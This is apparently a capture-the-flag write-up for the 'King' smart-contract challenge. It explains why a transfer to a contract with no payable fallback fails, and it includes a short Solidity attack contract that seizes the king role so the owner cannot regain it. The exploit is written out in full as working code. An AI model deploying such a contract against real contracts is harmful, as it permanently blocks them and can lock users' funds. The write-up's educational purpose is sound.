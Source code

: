 #King

Since the owner of the King contract can bypass the first condition of the receive function
(msg.value >= value), we have to focus on the transfer function. Transfer functions will fail when
the address recipient is a smart contract with no payable function or fallback to receive ETH.
We can build a smart contract that simply beocmes king and then the owner will be unable to become
the king agian.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract KingKiller {
    address payable immutable i_kingAddr;
    bool success;
    constructor(address payable _kingAddr) {
        i_kingAddr = _kingAddr;
    }

    function becomeKing() public payable returns(bool){
        (bool s, ) = i_kingAddr.call{value: msg.value}("");
        return success = s;
    }

    function getSuccess() public view returns(bool){
        return success;
    }
}

```
